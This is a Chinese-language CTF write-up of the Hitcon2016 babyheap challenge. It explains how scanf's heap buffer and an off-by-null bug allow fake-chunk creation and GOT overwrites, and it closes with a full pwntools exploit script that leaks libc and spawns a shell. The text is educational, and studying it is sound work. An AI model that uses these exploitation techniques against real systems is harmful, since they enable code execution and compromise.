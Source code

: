 ```yaml
---
clayout: post
title:  "scanf malloc"
date:   2020-2-20
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


#scanf malloc

glibc2.23后，scanf的缓冲区在堆中，利用scanf可以触发malloc申请比较大的堆块

## Hitcon2016-babyheap

```c
struct note{
    int len;
    char name[8];
    char *content;
};
```

add 新建note

edit 根据content指针找content，只能edit一次

```c
int edit()
{
  if ( !ptr || dword_6020A4 )
  {
    puts("bye bye");
    _exit(0);
  }
  printf("Content:");
  fuck_read(*(ptr + 2), *ptr);
  ++dword_6020A4;
  return puts("Done!");
}
```

delete free note和content

只能有一个note

```c
char *__fastcall fuck_read(char *a1, int a2)
{
  char *result; // rax
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = read(0, a1, a2);
  if ( v3 <= 0 )
  {
    puts("Error");
    _exit(-1);
  }
  result = &a1[v3];
  *result = 0;
  return result;
}
```

在输入name和content时都是调用这个函数，存在off by null

在输入name时off by null可以覆盖content指针

```c
      else if ( v3 == 4 )
      {
        printf("Really? (Y/n)", a2);
        a2 = &v4;
        __isoc99_scanf("%2s", &v4);
        if ( v4 != aN[0] )
          _exit(0);
      }
```

调用scanf

### exp

1. scanf，得到一个大chunk，在接下来覆盖后的content指针指向的位置伪造堆块

2. add，name中off by null覆盖content指针，content中伪造size

   ```c
   pwndbg> x/256gx 0x603000
   0x603000:       0x0000000000000000      0x0000000000001011
   0x603010:       0x000000000000006e      0x0000000000000000
   ......
   pwndbg> x/64gx 0x603fe0
   0x603fe0:       0x0000000000000000      0x0000000000000000
   0x603ff0:       0x0000000000000000      0x0000000000000081//fake chunk
   0x604000:       0x0000000000000000      0x0000000000000000
   0x604010:       0x0000000000000000      0x0000000000000021
   0x604020:       0x0000000000000080      0x6161616161616161//off by null
   0x604030:       0x0000000000604000      0x0000000000000091
   0x604040:       0x0000000000000000      0x0000000000000000
   0x604050:       0x0000000000000000      0x0000000000000000
   0x604060:       0x0000000000000000      0x0000000000000000
   0x604070:       0x0000000000000000      0x0000000000000041//size
   0x604080:       0x0000000000000000      0x0000000000000000
   0x604090:       0x0000000000000000      0x0000000000000000
   0x6040a0:       0x0000000000000000      0x0000000000000000
   0x6040b0:       0x0000000000000000      0x0000000000000000
   0x6040c0:       0x0000000000000000      0x0000000000020f41
   ```

3. free，note和fake chunk被free

   ```c
   fastbins
   0x20: 0x604010 ◂— 0x0
   0x30: 0x0
   0x40: 0x0
   0x50: 0x0
   0x60: 0x0
   0x70: 0x0
   0x80: 0x603ff0 ◂— 0x0
   ```

4. add，content申请到fake chunk的位置，输入content可以覆盖note中的content指针，覆盖为exit_got

5. edit，把exit改成ret，在edit中执行exit(0);直接返回，可以多次edit， 把atoi改成printf，格式化字符串泄露libc。中间遇到其他函数，需要用的就改成原来的plt，不需要的直接p64(0)

6. 此时调用atoi就是调用printf，返回值为输出的字节数，格式化字符串泄露libc

7. 输入三字节，返回值3，进edit，把atoi改成system

8. 输入/bin/sh

```python
from pwn import *
#r = remote('node3.buuoj.cn',27921)
r = process('./babyheap_hitcon_2016')
elf = ELF('./babyheap_hitcon_2016')
libc = ELF('/libc-2.23.so')

def add(size,content,name):
	r.sendlineafter('Your choice:','1')
	r.sendlineafter('Size :',str(size))
	r.sendafter('Content:',content)
	r.sendafter('Name:',name)

def free():
	r.sendlineafter('Your choice:','2')

def edit(content):
	r.sendlineafter('Your choice:','3')
	r.sendafter('Content:',content)


r.sendafter('Your choice:','4')
r.recvuntil('(Y/n)')
chunk = 'n'+'\x00'*(0x1000-1-0x20)+p64(0)+p64(0x81)+p64(0)*2
r.sendline(chunk)
add(0x80,p64(0)*7+p64(0x21),'a'*8)
free()
add(0x70,p64(0)*3+p64(0x41)+p64(0x60)*2+p64(elf.got['_exit']),'aaaa')



payload = p64(0x400c9d)
payload += p64(elf.plt['read']+6)
payload += p64(elf.plt['puts']+6)
payload += p64(0)
payload += p64(elf.plt['printf']+6)
payload += p64(0) 
payload += p64(elf.plt['read']+6)
payload += p64(0)*4
payload += p64(elf.plt['printf']+6)
edit(payload)


r.recvuntil('Your choice:')
r.send('%7$p')
r.recvuntil('0x')
leak = int(r.recvuntil('Invalid',drop=True),16)
log.success(hex(leak))
libc_base = leak-362-libc.sym['_IO_puts']
log.success(hex(libc_base))
system=libc_base+libc.sym['system']
log.success(hex(system))
r.send('333')

payload = p64(0x400c9d)
payload += p64(elf.plt['read']+6)
payload += p64(elf.plt['puts']+6)
payload += p64(0)
payload += p64(elf.plt['printf']+6)
payload += p64(0) 
payload += p64(elf.plt['read']+6)
payload += p64(0)*4
payload += p64(system)
r.send(payload)
r.send('/bin/sh\x00')
r.interactive()
```

